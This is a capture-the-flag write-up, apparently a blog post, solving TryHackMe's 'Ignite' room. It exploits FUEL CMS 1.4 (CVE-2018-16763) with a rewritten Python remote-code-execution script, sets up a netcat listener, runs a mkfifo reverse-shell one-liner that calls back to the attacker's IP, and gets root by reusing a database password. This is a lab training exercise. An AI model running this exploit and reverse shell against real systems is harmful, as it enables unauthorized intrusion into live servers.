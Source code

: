 ```yaml
---
layout: post
title: PenLog - &quot;Ignite&quot; by TryHackMe
categories: [TryHackMe, Penlog, Write Up, CTF, OSCP]
---
```


## Details

**Platform:** [TryHackMe](https://www.tryhackme.com/)\
**Difficulty:** Easy\
**Link:** [Ignite](https://tryhackme.com/room/ignite)

## Enumeration

Run `nmap` default port scan on target with TCP connect/version/script options:

```bash
$ nmap -vv -Pn -sT -sV -sC 10.10.211.150
```

This results in:

![nmap1](/images/posts/penlog_ignite_by_tryhackme/nmap1.png)
_(**Note:** http-title "Welcome to FUEL CMS".)_

Google "FUEL CMS" and note description on [website](https://www.getfuelcms.com/):

_"The content management system for premium-grade websites."_

Open browser an navigate to target's open http port 80; note FUEL CMS version v1.4:

![fuelcms](/images/posts/penlog_ignite_by_tryhackme/fuelcms.png)

Also note mention of default credentials:

![fuelcms-creds](/images/posts/penlog_ignite_by_tryhackme/fuelcms_creds.png)
_(**Note:** Logging in to the portal proved useless.)_

Taking a chance on this, use `searchsploit` and evaluate results:

```bash
$ searchsploit fuelcms 1.4
...
```

![searchsploit](/images/posts/penlog_ignite_by_tryhackme/searchsploit_fuelcms.png)
_(**Note:** "ss" in the above is a bash alias for `searchsploit`.)_

Download the PoC with EDB ID [47138](https://www.exploit-db.com/exploits/47138):

```bash
$ searchsploit -m 47138
$ dos2unix 47138
```

### 47138 Description

47138 demonstrates a PHP code execution vulnerability where un-trusted input results in 
Remote Code Execution (RCE). Looking at the code, the vulnerable parameter is highlighted by the `burp0_url`
variable:

```python
burp0_url = url+"/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27"+urllib.quote(xxxx)+"%27%29%2b%27"
```

The URL encoded data can be decoded like so:

```bash
$ python -c 'import urllib;print(urllib.unquote("%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27\"+urllib.quote(xxxx)+\"%27%29%2b%2"))'
```

![urldecode-filter](/images/posts/penlog_ignite_by_tryhackme/urldecode_filter.png)

As shown in the decoded PHP code, a call to PHP's `system` results in code execution.

## User Shell

I re-wrote the 47138 PoC (_fuelpwn.py_) and stripped out printing of the GET request response and built-in
support for the Burp Suite proxy:

```python
"""
FUEL CMS v1.4.1 CVE-2018-16763 PoC.

This PoC was derived from: https://www.exploit-db.com/exploits/47138.
"""
import argparse
import urllib
import requests

parser = argparse.ArgumentParser('Fuel CMS v1.4 CVE-2018-16763 PoC')

parser.add_argument('url', type=str, help='URL to target, e.g. http://127.0.0.1')
parser.add_argument('cmd', type=str, help='Command to execute')
args = parser.parse_args()

url=args.url
cmd=args.cmd

payload="'+pi(print($a='system'))+$a('"+cmd+"')+'"
payload_enc=urllib.quote(payload)  # URL encoded payload
filter_path='/fuel/pages/select/?filter='+payload_enc

try:
    _ = requests.get(url+filter_path)
except:
    pass
```
_(**Note:** You can download my port [here](https://gist.github.com/wulfgarpro/d302038d40e4aab46a5b61d876b01b93).)_

This port simplifies getting a reverse shell.

Start a `nc` reverse listener on port 4444:

```bash
$ nc -vnlp 4444
```

Run _fuelpwn.py_ supplying target URL and command to execute connecting back to the attacking machine - use fifo since `nc` on target does not have support for `-e` (see `man nc`):

```bash
$ python fuelpwn.py http://10.10.211.150 "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.4.9.232 4444 >/tmp/f"
```

![user-shell](/images/posts/penlog_ignite_by_tryhackme/user_shell.png)
_(**Note:** "reverse" in the above is a bash alias for `nc -vnlp 4444`.)_

Upgrade the shell with a PTY:

```bash
$ python -c 'import pty; pty.spawn("/bin/bash")'
$ (Ctrl-Z)
$ stty raw -echo
$ fg
$ export TERM=xterm && reset
```

Get the user _flag.txt_:

![user-flag](/images/posts/penlog_ignite_by_tryhackme/user_flag.png)

## Root Shell

Track down the FUEL CMS _config_ directory and use `grep` to find database password:

![dbpassword](/images/posts/penlog_ignite_by_tryhackme/dbpassword.png)

Perform the same to find username:

![dbusername](/images/posts/penlog_ignite_by_tryhackme/dbusername.png)

Notice the username is _root_; test for password re-use against _root_ user and get _root.txt_:

![root-shell](/images/posts/penlog_ignite_by_tryhackme/root_shell.png)
_(**Note:** supplied password was **mememe**.)_